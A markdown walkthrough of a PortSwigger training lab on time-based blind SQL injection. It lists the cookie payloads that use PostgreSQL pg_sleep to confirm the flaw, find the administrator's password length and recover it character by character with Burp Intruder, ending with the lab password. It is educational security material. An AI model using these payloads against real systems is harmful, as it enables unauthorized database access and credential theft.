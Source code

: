 ## Welcome, my friend. Today we will start the [16. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/b9733e06-f236-4d06-bdc5-8ca38acea06a)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/4c392554-d87d-46e3-9658-0cbd8c35441e)

![image](https://github.com/user-attachments/assets/9841b4d6-3cbe-4f68-a64a-2e251a77b821)

### We notice ```Cookie: TrackingId=ebVJ3SqBjZlzaJ5h;``` this param is vulnerable and inject following payload:

```
Cookie: TrackingId=KNoH2DCuWQ0ZNtqI'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

![image](https://github.com/user-attachments/assets/f813abdf-1af9-4de7-ba3b-24c1894b6373)

![image](https://github.com/user-attachments/assets/cc4c609c-402b-4076-a489-cb2f5f71acbb)

### this take 10 second because 1=1 is true. Let's try 1=2:

```
Cookie: TrackingId=KNoH2DCuWQ0ZNtqI'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

![image](https://github.com/user-attachments/assets/e7c4e2d5-a138-48c9-b2f6-df1402205f12)

![image](https://github.com/user-attachments/assets/3807b876-1710-455c-bfbc-4ca8c1e22329)

### this is doesn't take time becuase 1=2 is false.

### this payload for sure that exist username is administrator:

```
Cookie: TrackingId=KNoH2DCuWQ0ZNtqI'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![image](https://github.com/user-attachments/assets/90107ad9-ef4e-4575-8e04-77c5f40488e7)

![image](https://github.com/user-attachments/assets/ef7f3fca-de13-4182-88ed-7df0fccd58c0)

### This test then know number of letters's password:

```
Cookie: TrackingId=KNoH2DCuWQ0ZNtqI'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![image](https://github.com/user-attachments/assets/32205a19-1bf8-43b1-9f39-71ff29a281b1)

![image](https://github.com/user-attachments/assets/daab4781-7994-43e5-99df-85986cb350dc)

### We known that password is greater than one letters.



```
Cookie: TrackingId=KNoH2DCuWQ0ZNtqI'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![image](https://github.com/user-attachments/assets/b9d69c41-be0d-4db9-b0b7-fb2d45d22832)


![image](https://github.com/user-attachments/assets/e99e244c-816b-4282-ac41-234b0a6cc16b)

### Ok , this password is 20 letters , Let's test to discover this letters:

```
Cookie: TrackingId=KNoH2DCuWQ0ZNtqI'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![image](https://github.com/user-attachments/assets/4e2e1285-c041-402f-9ead-a5d6f9dbe16e)

![image](https://github.com/user-attachments/assets/e8e641b0-b533-478c-bcce-70b88f61c516)

### This is doesn't ```a``` char, we will using intruder to easier this task:

```
Cookie: TrackingId=KNoH2DCuWQ0ZNtqI'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

[Screencast from 09-05-2024 08:52:26 PM.webm](https://github.com/user-attachments/assets/c59bea04-bff8-4091-a252-92b32e7b6171)






#### this is password ```administrator:ymqvub3q5hkkjak6wnvn```

![image](https://github.com/user-attachments/assets/b6bbc9a6-c5b8-4333-a1ee-7b78bfb36eb2)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
